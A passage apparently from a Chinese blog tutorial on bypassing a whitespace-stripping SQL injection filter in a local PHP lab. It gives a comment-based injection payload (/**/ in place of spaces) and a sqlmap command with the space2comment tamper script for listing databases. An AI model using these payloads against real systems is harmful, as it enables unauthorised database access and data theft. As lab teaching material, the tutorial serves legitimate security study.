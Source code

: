 ```
mysql_close($con);   //关闭数据库连接       4
?>
```




**过滤了空格**

---------



```
function blacklist($id)      
{	      
	$id = preg_replace('/[\s]/',"",$id);       		//过滤  空格 %20       
	return $id;      
}
```




![](https://img-blog.csdnimg.cn/20200229160657366.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



### 注释符/\*\*/绕过



如果只过滤了空格，没有过滤 /\*  ，那么我们可以利用 /\*\*/ 来绕过空格过滤



```
http://127.0.0.1/index.php?id=1/**/order/**/by/**/1
```




![](https://img-blog.csdnimg.cn/20200229160742655.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



如果直接使用 sqlmap 数据，会提示



![](https://img-blog.csdnimg.cn/20200229135156254.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



这时候我们可以使用注释绕过，在Sqlmap中，对于MySQL数据库注释绕过空格的脚本有：space2comment.py 



Sqlmap使用命令:   \--tamper=space2comment.py



```
python2 sqlmap.py -u http://127.0.0.1/index.php?id=1 --batch --dbs --tamper=space2comment.py
```
